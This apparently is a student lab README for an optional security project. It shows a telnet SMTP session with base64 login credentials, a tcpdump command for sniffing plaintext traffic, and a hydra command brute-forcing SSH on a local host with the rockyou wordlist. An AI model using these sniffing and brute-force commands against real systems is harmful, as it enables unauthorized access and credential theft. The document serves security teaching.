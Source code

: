 # Attack is the best defense

# Background Context
This project is NOT mandatory at all. It is 100% optional. Doing any part of this project will add a project grade of over 100% to your average. Your score won’t get hurt if you don’t do it, but if your current average is greater than your score on this project, your average might go down. Have fun!


## Tasks

<details>
<summary><a href="./0-sniffing">0. ARP spoofing and sniffing unencrypted traffic</a></summary><br>

<a href='https://postimg.cc/dZFTgZM5' target='_blank'><img src='https://i.postimg.cc/nrjYjq3f/image.png' border='0' alt='image'/></a>

```sh
sylvain@ubuntu$ telnet smtp.sendgrid.net 587
Trying 167.89.121.145...
Connected to smtp.sendgrid.net.
Escape character is '^]'.
220 SG ESMTP service ready at ismtpd0013p1las1.sendgrid.net
EHLO ismtpd0013p1las1.sendgrid.net
250-smtp.sendgrid.net
250-8BITMIME
250-PIPELINING
250-SIZE 31457280
250-STARTTLS
250-AUTH PLAIN LOGIN
250 AUTH=PLAIN LOGIN
auth login           
334 VXNlcm5hbWU6
VGhpcyBpcyBteSBsb2dpbg==
334 UGFzc3dvcmQ6
WW91IHJlYWxseSB0aG91Z2h0IEkgd291bGQgbGV0IG15IHBhc3N3b3JkIGhlcmU/ISA6RA==
235 Authentication successful
mail from: sylvain@kalache.fr
250 Sender address accepted
rcpt to: julien@google.com
250 Recipient address accepted
data
354 Continue
To: Julien
From: Sylvain
Subject: Hello from the insecure world

I am sending you this email from a Terminal.
.
250 Ok: queued as Aq1zhMM3QYeEprixUiFYNg
quit
221 See you later
Connection closed by foreign host.
sylvain@ubuntu$ 
```

<a href='https://postimages.org/' target='_blank'><img src='https://i.postimg.cc/kG0NxDH6/image.png' border='0' alt='image'/></a>

```sh
# Run this when there is no other process running,
# ...tried to find a way to specifically filter the specif process but
# ...the best option was to run it in a virtual enviroment
# ...also base64 should be your best friend
sudo tcpdump -A -l
```

- [user\_authenticating\_into\_server](./user_authenticating_into_server) binary script file.

</details>

<details>
<summary><a href="./1-dictionary_attack">1. Dictionary attack</a></summary><br>

<a href="https://ibb.co/Ltr6sZh"><img src="https://i.ibb.co/7WQV01N/image.png" alt="image" border="0"></a>

- [Wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) **Rockyou.txt**

```sh
# command
hydra -V -s 2222 -l sylvain -P rockyou.txt 127.0.0.1 ssh -t 64
```

</details>
